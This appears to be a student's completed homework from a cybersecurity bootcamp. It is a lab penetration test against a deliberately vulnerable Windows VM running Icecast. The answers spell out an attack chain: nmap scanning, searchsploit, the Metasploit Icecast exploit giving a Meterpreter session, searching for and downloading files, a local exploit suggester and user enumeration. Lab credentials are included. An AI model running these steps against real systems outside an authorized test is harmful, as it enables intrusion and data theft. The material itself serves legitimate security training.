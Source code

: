 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sS -sV -O 192.168.0.20
 
 ![image](https://user-images.githubusercontent.com/93744925/162008682-fdc94e85-549c-48a5-b371-68737f195ecb.png)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ssearchsploit icecast
 
![image](https://user-images.githubusercontent.com/93744925/162008112-e8bc8a93-b1ae-41f8-81e7-2a50f9908585.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast

 ![image](https://user-images.githubusercontent.com/93744925/162008024-172f8b7e-f257-4eeb-a25d-f11065715959.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0

 ![image](https://user-images.githubusercontent.com/93744925/162008783-354f38db-c458-4a6b-be61-bca0fcd25c80.png)

5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set rhost 192.168.0.20
 
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit or run
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile*.txt

 ![image](https://user-images.githubusercontent.com/93744925/162008290-9da4d0d9-f396-4369-acf1-b77dc26a2660.png)

 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe*.txt

 ![image](https://user-images.githubusercontent.com/93744925/162007889-95ae065e-4dce-481a-8f86-0f5f626ee67c.png)

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download 'c:\\Users\IEUser\Documents\Drinks.recipe.txt'
 
 ![image](https://user-images.githubusercontent.com/93744925/162007638-c84b6e68-3bd6-4b23-beb1-e64726854ed8.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 > Answer: run post/multi/recon/local_exploit_suggester

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
![image](https://user-images.githubusercontent.com/93744925/162007763-97305197-a69b-4f72-bb66-e578b183b364.png)

B. Open a Meterpreter shell. 
 
![image](https://user-images.githubusercontent.com/93744925/162009059-a9bb5c33-9557-4842-9f89-606e399defb2.png)

C. Run the command that displays the target's computer system information:

   > Answer: sysinfo
 
![image](https://user-images.githubusercontent.com/93744925/162008901-2c33837c-bfad-440b-b3a0-0de4753f8c55.png)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

